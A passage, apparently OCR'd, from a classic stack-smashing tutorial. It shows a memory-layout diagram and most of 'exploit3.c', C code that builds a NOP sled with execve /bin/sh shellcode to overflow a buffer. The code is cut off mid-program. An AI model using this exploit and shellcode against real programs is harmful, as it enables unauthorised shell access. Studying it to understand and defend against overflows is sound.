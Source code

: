 bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [NNNNNNNNNNNSSSSSSSSS][0xDE][0xDE][0xDE][0xDE][0xDE]
                 ^                     |
                 |_____________________|
top of                                                            bottom of
stack                                                                 stack

   The new exploits is then:

exploit3.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  for (i = 0; i < bsize/2; i++)
    buff[i] = NOP;

  ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];
